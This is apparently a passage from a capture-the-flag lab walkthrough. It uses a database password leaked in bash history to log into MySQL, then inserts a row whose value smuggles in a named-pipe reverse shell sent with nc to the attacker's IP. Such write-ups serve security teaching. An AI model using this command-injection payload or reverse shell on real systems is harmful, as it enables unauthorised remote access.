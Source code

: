 ```bash
clear
su root
cd ~~
cd ~
clear
ls
mysql -u lucien -plucien42DBPASSWORD

```

We have the password :

```bash
ucien@ip-10-10-137-212:~$ mysql -u lucien -plucien42DBPASSWORD
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 13
Server version: 8.0.41-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2025, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use library
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> I
+-------------------+
| Tables_in_library |
+-------------------+
| dreams            |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+
4 rows in set (0.00 sec)

mysql> desc dreams;
+---------+--------------+------+-----+---------+-------+
| Field   | Type         | Null | Key | Default | Extra |
+---------+--------------+------+-----+---------+-------+
| dreamer | varchar(50)  | YES  |     | NULL    |       |
| dream   | varchar(255) | YES  |     | NULL    |       |
+---------+--------------+------+-----+---------+-------+
2 rows in set (0.00 sec)

 mysql> INSERT INTO dreams (dreamer, dream)
    -> VALUES ('NoBody', '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.162.183 1337 >/tmp/f)');
```